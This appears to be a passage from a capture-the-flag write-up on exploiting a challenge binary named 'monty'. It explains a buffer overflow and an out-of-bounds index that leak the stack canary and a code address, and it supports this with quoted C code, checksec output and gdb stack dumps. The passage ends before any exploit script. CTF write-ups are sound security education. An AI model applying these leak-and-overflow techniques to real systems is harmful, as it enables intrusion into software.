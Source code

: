 
```c
  printf("Add your name to the leaderboard.\n");
  getchar();
  printf("Name: ");
  fgets(name, 52, stdin);
  ```

  This is our buffer overflow as we can write 52 bytes into a 20 byte buffer. We can use this to get to the win function and get the flag. Taking a look at the file with checksec, we see that PIE is enabled and we have a canary. So we need to leak a memory address as well as the canary.


  ```
checksec --file=monty
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   82 Symbols        No    0               2               monty

  ```

```c  
printf("index of your first peek? ");
  scanf("%d", &index);
  leak = cards[index % DECK_SIZE];
  cards[index % DECK_SIZE] = cards[0];
  cards[0] = leak;
  printf("Peek 1: %lu\n", cards[0]);
  ```

  Taking a look at the peaks, there is no input checking so we can pass a negative number into index and peek up the stack! 

  Lets take a look in gdb. Running the program and setting a breakpoint right before we enter in our first peak value


  ```sh
[#0] 0x7ffff7ec2a5d → __GI___libc_read(fd=0x0, buf=0x7ffff7f9eb23 <_IO_2_1_stdin_+131>, nbytes=0x1)
[#1] 0x7ffff7e4bd74 → _IO_new_file_underflow(fp=0x7ffff7f9eaa0 <_IO_2_1_stdin_>)
[#2] 0x7ffff7e4d102 → __GI__IO_default_uflow(fp=0x7ffff7f9eaa0 <_IO_2_1_stdin_>)
[#3] 0x7ffff7e28b6e → __vfscanf_internal(s=<optimized out>, format=<optimized out>, argptr=0x7fffffffdb90, mode_flags=0x2)
[#4] 0x7ffff7e1d77e → __isoc99_scanf(format=<optimized out>)
[#5] 0x5555555553f1 → game()
[#6] 0x55555555567e → main()

gef➤  b *0x5555555553f1
Breakpoint 1 at 0x5555555553f1

  ```

Lets continue and examine the stack after we input a value

```sh
gef➤  x/-50gx $sp
0x7fffffffdae0: 0x0000000000000000      0x0000000000000000
0x7fffffffdaf0: 0x00007fffffffdac0      0x00007fffffffdac0
0x7fffffffdb00: 0x2525252525252525      0x2525252525252525
0x7fffffffdb10: 0x0000000000000000      0x0000000000000000
0x7fffffffdb20: 0x0000000000000000      0x0000000000000000
0x7fffffffdb30: 0x0000000000000000      0x0000000000ff0000
0x7fffffffdb40: 0x0000000000000120      0xe15d5cb66eeba700
0x7fffffffdb50: 0x0000000000000048      0x00007fffffffdf68
0x7fffffffdb60: 0x0000000000000000      0x00007fffffffdf78
0x7fffffffdb70: 0x0000000000000000      0x00007ffff7ffd000
0x7fffffffdb80: 0x00007fffffffde40      0x00007ffff7e1d77e
0x7fffffffdb90: 0x0000003000000008      0x00007fffffffdc70
0x7fffffffdba0: 0x00007fffffffdbb0      0xe15d5cb66eeba700
```